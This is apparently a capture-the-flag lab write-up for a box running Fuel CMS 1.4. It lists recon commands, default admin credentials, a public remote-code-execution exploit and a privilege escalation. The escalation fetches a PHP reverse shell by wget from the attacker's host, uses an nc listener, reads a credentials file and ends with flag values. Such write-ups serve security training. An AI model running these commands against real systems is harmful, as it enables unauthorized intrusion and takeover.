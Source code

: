 # Brooklyn Nine Nine

--------------------------------------------------------------------

**TOOLS USED**: nmap, dirb, exploitdb

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.156.75

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

Run port scan
```
nmap -sC -sV 10.10.156.75
```

![1.1](./imgs/1.1.png)

```
dirb http://10.10.156.75
```

![1.2](./imgs/1.2.png)

Website running Fuel CMS Version 1.4<br>

![1.4](./imgs/1.4.png)

![1.3](./imgs/1.3.png)

**USER**: admin<br>
**PASSWORD**: admin<br>

### 2. EXPLOIT

Search for exploit
```
searchsploit fuel cms
```

![2.1](./imgs/2.1.png)

-m copy exploit to current directory
```
searchsploit -m php/webapps/50477.py
python3 50477.py -u http://10.10.156.75
```

![2.2](./imgs/2.2.png)

![2.3](./imgs/2.3.png)

**USER FLAG**: 6470e394cbf6dab6a91682cc8585059b

### 3. PRIVILEGE ESCALATION

![3.1](./imgs/3.1.png)

Database file located at fuel/application/config/database.php
```
cat fuel/application/config/database.php
```

![3.2](./imgs/3.2.png)

**ROOT PASSWORD**: mememe

Need a proper shell to become root user

Get php reverse shell from pentest monkey and edit IP

![3.3](./imgs/3.3.png)

Start python server
```
python -m http.server
```

Get exploit from host machine
```
wget http://10.6.40.234:8000/exploit.php
```

Start listener for reverse shell
```
nc -lnvp 1234
```

Run reverse shell
```
php exploit.php
```

Spawn interactive shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![3.4](./imgs/3.4.png)

Now we can switch to the root user

```
su root
cat /root/root.txt
```

![3.5](./imgs/3.5.png)

**ROOT FLAG**: b9bbcb33e11b80be759c4e844862482d



